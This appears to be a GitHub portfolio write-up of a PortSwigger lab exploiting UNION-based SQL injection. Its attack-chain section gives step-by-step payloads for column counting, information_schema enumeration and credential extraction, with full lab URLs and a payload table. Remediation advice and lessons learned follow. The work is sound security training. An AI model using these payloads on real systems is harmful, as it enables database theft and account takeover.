

<div align="center">


<h1> SQL Injection — Listing Database Contents (Non-Oracle)</h1>
<p><em>UNION-based schema enumeration and credential extraction via information_schema on a live PortSwigger lab</em></p>

[PortSwigger Lab](https://portswigger.net/web-security/sql-injection) · [View Evidence](#7-evidence) · [Jump to Payloads](#5-attack-chain)

</div>

---

## Table of Contents

1. [Overview](#1-overview)
2. [Scope and Objectives](#2-scope-and-objectives)
3. [Methodology](#3-methodology)
4. [Findings](#4-findings)
5. [Attack Chain](#5-attack-chain)
6. [Tools and Environment](#6-tools-and-environment)
7. [Evidence](#7-evidence)
8. [Remediation Strategy](#8-remediation-strategy)
9. [Lessons Learned](#9-lessons-learned)
10. [References](#10-references)
11. [Author](#11-author)

---

## 1. Overview

This writeup documents the exploitation of a **UNION-based SQL injection** vulnerability in a PortSwigger Web Security Academy lab environment. The vulnerable parameter was the `category` filter in a product listing feature. Because the application returned raw query results in the HTTP response, an attacker can leverage a `UNION SELECT` statement to append arbitrary data — including sensitive database contents — to the legitimate response.

The attack progressed from initial column enumeration, through schema discovery via `information_schema`, to full credential extraction from the users table. The lab was solved by logging in as the `administrator` user with the extracted password.

---

## 2. Scope and Objectives

**Target Application:**
```
https://0aff00eb037d2102843ef023001c00e4.web-security-academy.net
```

**In-Scope Parameter:**
```
GET /filter?category=
```

**Objectives:**

| # | Objective | Status |
|---|---|---|
| 1 | Identify the injection point and confirm exploitability |  Completed |
| 2 | Determine the number of columns returned by the query |  Completed |
| 3 | Enumerate all tables via `information_schema.tables` |  Completed |
| 4 | Identify columns within the target users table |  Completed |
| 5 | Extract all usernames and passwords from the table |  Completed |
| 6 | Authenticate as the `administrator` user to solve the lab |  Completed |

**Out of Scope:** Any system other than the designated lab instance. No production systems were targeted or accessed.

---

## 3. Methodology

This engagement followed a structured web application penetration testing approach aligned with OWASP Testing Guide (OTG) and PTES standards.

**Phase 1 — Reconnaissance**
Identified user-controlled input parameters reflected in the application response. Confirmed the `category` GET parameter as the injection surface by observing query results displayed directly on the page.

**Phase 2 — Vulnerability Identification**
Injected a single quote (`'`) to break the SQL string literal. The application returned a database error, confirming unsanitized input is passed to the backend SQL engine.

**Phase 3 — Exploitation**
Applied UNION-based injection technique:
- Determined column count using incremental `NULL` probing
- Identified string-compatible columns for data output
- Queried `information_schema.tables` to enumerate all database tables
- Queried `information_schema.columns` to enumerate columns in the target table
- Extracted all rows from the users table

**Phase 4 — Post-Exploitation**
Used recovered `administrator` credentials to authenticate to the application, confirming full account takeover.

---

## 4. Findings

### [CRITICAL] SQL Injection — UNION-Based Data Extraction

| Field | Detail |
|---|---|
| **Vulnerability** | SQL Injection (UNION-based) |
| **Severity** | Critical |
| **CVSS v3.1 Score** | 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| **Location** | `GET /filter?category=` |
| **Database Type** | Non-Oracle (PostgreSQL / MySQL) |
| **CWE** | CWE-89: Improper Neutralization of Special Elements used in an SQL Command |
| **OWASP Top 10** | A03:2021 — Injection |

**Description:**
The `category` parameter is concatenated directly into a SQL query without sanitization or parameterization. An attacker can terminate the string context with a single quote, inject a `UNION SELECT` statement, and retrieve arbitrary data from the database. The full contents of the `users_cbcldv` table — including plaintext credentials — were successfully extracted.

**Impact:**
- Full read access to all database tables
- Extraction of administrator credentials
- Complete authentication bypass
- Potential for further lateral movement depending on database privileges

---

## 5. Attack Chain

### Step 1 — Confirm Injection Point

Inject a single quote to trigger a syntax error and confirm the parameter is vulnerable:

```
/filter?category=Accessories'
```

**Result:** Application throws a database error — injection confirmed.

---

### Step 2 — Column Count Enumeration

Probe for the number of columns the original query returns using `NULL` padding:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
```

Two `NULL` values returned a valid response with no error — **2 columns confirmed**.

---

### Step 3 — List All Tables

Query `information_schema.tables` to retrieve all table names in the database:

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

**Full URL:**
```
https://0aff00eb037d2102843ef023001c00e4.web-security-academy.net/filter?category=Accessories%27union+select+table_name,null+from+information_schema.tables--
```

**Result:** Full list of tables returned in response. Target table identified: **`users_cbcldv`**

---

### Step 4 — Enumerate Columns in Target Table

Query `information_schema.columns` scoped to the target table:

```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_cbcldv'--
```

**Full URL:**
```
https://0aff00eb037d2102843ef023001c00e4.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20column_name,NULL%20FROM%20information_schema.columns%20WHERE%20table_name=%27users_cbcldv%27--
```

**Result:** Column names returned — `username_[suffix]` and `password_[suffix]`

---

### Step 5 — Extract Credentials

Retrieve all rows from the users table using the confirmed column names:

```sql
' UNION SELECT username_[suffix],password_[suffix] FROM users_cbcldv--
```

**Result:** All username/password pairs returned in plaintext, including the `administrator` account.

---

### Step 6 — Authenticate as Administrator

Used the extracted `administrator` credentials on the application's login endpoint. Authentication succeeded and the lab was marked solved.

---

### Payload Summary

| Step | Payload |
|---|---|
| Confirm injection | `'` |
| Column count | `' UNION SELECT NULL,NULL--` |
| List tables | `' UNION SELECT table_name,NULL FROM information_schema.tables--` |
| List columns | `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_cbcldv'--` |
| Extract data | `' UNION SELECT username_col,password_col FROM users_cbcldv--` |

---

## 6. Tools and Environment

| Tool | Purpose |
|---|---|
| **Browser DevTools** | Observing HTTP requests and response output |
| **Burp Suite Community** | Request interception and payload manipulation |
| **Manual Payload Crafting** | URL-encoded UNION injection strings |
| **PortSwigger Lab Platform** | Authorized isolated target environment |

**Environment:**
- Attack Platform: Browser + Burp Suite
- Target: PortSwigger Web Security Academy (isolated lab instance)
- Database: Non-Oracle (PostgreSQL or MySQL — confirmed by `information_schema` availability)

---

## 7. Evidence

**Listing Tables — `information_schema.tables` query output**


---

**Listing Password Columns — `information_schema.columns` query output**


---

**Admin Credentials Extracted — plaintext username and password returned**


---

**Lab Solved — successful administrator login**



---

## 8. Remediation Strategy

### [CRITICAL] Use Parameterized Queries

Replace all dynamic SQL string concatenation with prepared statements. This is the primary and most effective fix.

**Vulnerable pattern:**
```python
query = "SELECT * FROM products WHERE category = '" + category + "'"
```

**Secure pattern:**
```python
cursor.execute("SELECT * FROM products WHERE category = %s", (category,))
```

### [HIGH] Implement an ORM

Use an Object-Relational Mapper (Django ORM, SQLAlchemy, Hibernate) which handles parameterization by default and eliminates raw SQL construction from application code.

### [HIGH] Input Validation and Allowlisting

Validate and sanitize all user-supplied input. For enumerable values like `category`, use server-side allowlisting rather than sanitizing arbitrary strings.

### [MEDIUM] Suppress Verbose Error Messages

Disable database error output in production. Stack traces and SQL errors must never be returned to the client.

```python
DEBUG = False  # Django — never True in production
```

### [MEDIUM] Apply Least Privilege to Database Users

The application database user should only have the minimum permissions required. Revoke `SELECT` on `information_schema` where not needed, and never grant `DROP`, `ALTER`, or `FILE` privileges to the application user.

### [LOW] Hash Credentials at Rest

Passwords must never be stored in plaintext. Use a modern adaptive hashing algorithm:

```python
from django.contrib.auth.hashers import make_password
hashed = make_password(raw_password)  # bcrypt / PBKDF2
```

---

## 9. Lessons Learned

**1. `information_schema` is the universal blueprint.**
On any non-Oracle database (PostgreSQL, MySQL, MSSQL), `information_schema` exposes the full schema — table names, column names, data types. It is always the first target in a UNION-based enumeration attack.

**2. Column count and type matching are prerequisites.**
A UNION attack fails if the injected query does not match the column count and compatible data types of the original query. Systematic `NULL` probing is the fastest way to resolve this before attempting data extraction.

**3. In-band injection enables direct extraction.**
UNION attacks only work when query results are reflected in the response. When output is blind, boolean or time-based techniques are required. Identifying the output channel first shapes the entire attack strategy.

**4. URL encoding is not sanitization.**
The application relied on standard URL parameter parsing. Characters like `'`, `--`, and spaces (`+` or `%20`) pass through cleanly and are interpreted by the SQL engine. Encoding at the transport layer has no effect on injection once the value is decoded server-side.

**5. Plaintext credential storage compounds the impact.**
The severity of this vulnerability escalates dramatically when the extracted data is unencrypted. Had passwords been hashed, extraction would not translate directly to account takeover.

---

## 10. References

| Resource | Link |
|---|---|
| PortSwigger — SQL Injection | https://portswigger.net/web-security/sql-injection |
| PortSwigger — UNION Attacks | https://portswigger.net/web-security/sql-injection/union-attacks |
| OWASP — SQL Injection | https://owasp.org/www-community/attacks/SQL_Injection |
| OWASP Top 10 A03:2021 | https://owasp.org/Top10/A03_2021-Injection/ |
| CWE-89 | https://cwe.mitre.org/data/definitions/89.html |
| NIST NVD — SQL Injection | https://nvd.nist.gov/vuln-metrics/cvss |
| PayloadsAllTheThings — SQLi | https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection |

---

## 11. Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> _"Built in the lab. Documented for the field."_

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated
> lab environments or sanctioned CTF platforms. No unauthorized systems were accessed.
> This project is intended for educational and portfolio purposes only.

---

<div align="center">
  <sub>PortSwigger Web Security Academy · SQL Injection — Listing Database Contents (Non-Oracle) · 2026</sub>
</div>
